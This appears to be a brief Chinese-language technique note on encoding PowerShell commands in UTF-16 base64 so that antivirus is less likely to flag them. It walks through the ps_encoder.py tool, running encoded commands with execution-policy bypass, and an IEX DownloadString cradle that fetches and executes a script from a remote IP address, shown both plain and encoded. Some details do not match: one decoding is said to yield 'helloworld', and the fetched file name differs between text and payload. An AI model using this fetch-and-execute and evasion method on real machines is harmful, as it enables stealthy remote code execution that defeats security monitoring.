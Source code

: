 普通的base64编码容易被查杀??

使用这个工具base64编码长度增加1倍。

https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py

例如，将"calc" 保存在a.txt

执行：

	$python ps_encoder.py -s a.txt

	YwBhAGwAYwA=


在这个网站解码 http://tool.chinaz.com/tools/base64.aspx 可以解出helloworld。


powershell 执行：

	PowerShell.exe -Exec Bypass -Enc YwBhAGwAYwA=

弹出计算器。

a.txt 保存：

	IEX(New-Object Net.WebClient).DownloadString('http://10.88.104.26:8000/b.txt')

b.txt 保存：

	echo helloworld

powershell执行：

	PowerShell.exe -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADgAOAAuADEAMAA0AC4AMgA2ADoAOAAwADAAMAAvAGEALgB0AHgAdAAnACkA

![](1.png)